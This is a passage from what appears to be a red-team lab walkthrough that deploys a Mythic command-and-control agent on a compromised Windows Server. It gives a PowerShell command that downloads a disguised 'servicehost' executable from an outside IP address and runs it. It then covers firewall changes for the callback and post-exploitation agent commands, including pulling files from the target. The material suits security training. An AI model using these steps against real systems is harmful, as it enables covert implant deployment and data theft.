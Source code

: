 ![Mythic Payload](../images/21-mythic-payload1.png)

4. From the compromised Windows Server, download payload via PowerShell (demo used an `Invoke-WebRequest` style command):

```powershell
# Example PowerShell (demo style)
Invoke-WebRequest -Uri "http://155.138.158.156:9999/servicehost-stepnro.exe" -OutFile "$env:PUBLIC\Downloads\servicehost-stepnro.exe"
# Then run the executable (demo executed it in the Downloads folder)
Start-Process "$env:PUBLIC\Downloads\servicehost-stepnro.exe"
```

5. Ensure Mythic server firewall allows the chosen hosting port (demo used `ufw allow 9999` and eventually allowed `80` for the HTTP callback).

**Verify callback & agent:**

- On Mythic server `netstat -anob` (or equivalent) shows established connection with `servicehost-<handle>.exe` process and a PID (demo PID `6496`).
- Mythic web GUI → active callback shows the agent `my-win-<handle>` with user `administrator`, last check-in time, and process ID.

---

### Phase 5 — Post-exploitation & Exfiltration

- Interact with the agent via Mythic web GUI (keyboard icon → run commands).
- Example agent commands:

  - `whoami` → returns `administrator`
  - `get network info` / `ifconfig` (agent specific)
  - `download <path>` to retrieve files from the target
